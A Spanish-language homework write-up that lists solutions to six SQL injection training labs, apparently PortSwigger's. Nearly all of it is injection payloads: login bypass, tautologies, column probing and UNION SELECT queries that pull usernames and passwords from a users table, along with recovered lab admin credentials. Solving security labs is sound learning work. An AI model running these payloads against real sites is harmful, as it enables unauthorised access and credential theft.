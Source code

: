 #  Tarea #985 Realizar los ejercicios de SQL Injection

## 1. LAB 1 SQLi
    * category '+OR+1=1--

---
## 2. LAB 2 SQLi
    * username 
        * administrator'--

---
## 3. [LAB 3 SQLi Determining the number of columns return by a query](https://www.youtube.com/watch?v=GP6CK03nDvw)
    * '+UNION+SELECT+NULL,NULL--
        * Firefox =! Foxyproxy 

---
## 4. [LAB 4 SQLi UNION attack finding a column containing text](https://www.youtube.com/watch?v=SGBTC5D7DTs&t=651s) 
    * '+UNION+SELECT+'abcdef',NULL,NULL--
        * category=Corporate+gifts ' UNION SELECT NULL, '7GBykY', NULL--

---
## 5. [LAB 5 SQLi UNION attack retrieving data from other tables](https://www.youtube.com/watch?v=6Dsj5SqR944)
    * category=Corporate+gifts '
        * category=Corporate+gifts ' order by 3--
            * category=Corporate+gifts ' UNION select 'a', NULL--
            * category=Corporate+gifts ' UNION select 'a', 'a'--
    * '+UNION+SELECT+username,+password+FROM+users--
        * administrator > b40kore6a4it6t57qcld     

---
       
## 6. [LAB 6 SQLi UNION attack retrieving multiple values in a single column](https://www.youtube.com/watch?v=yRVYoqR9vrI)
* [SQL injection cheat sheet](https://portswigger.net/web-security/sql-injection/cheat-sheet)
    * category=Gifts ' order by 1--
    * category=Gifts ' order by 2--
    * category=Gifts ' order by 3--
        * category=Gifts' UNION SELECT 'a', NULL-- 
        * category=Gifts ' UNION SELECT%20 NULL, 'a'--
            * category=Gifts ' UNION select NULL, username from users--
            * category=Gifts ' UNION select NULL, password from users--      
            * '+UNION+SELECT+NULL,username||'~'||password+FROM+users--
                * administrator~mxe67qn75iadph7i4rl

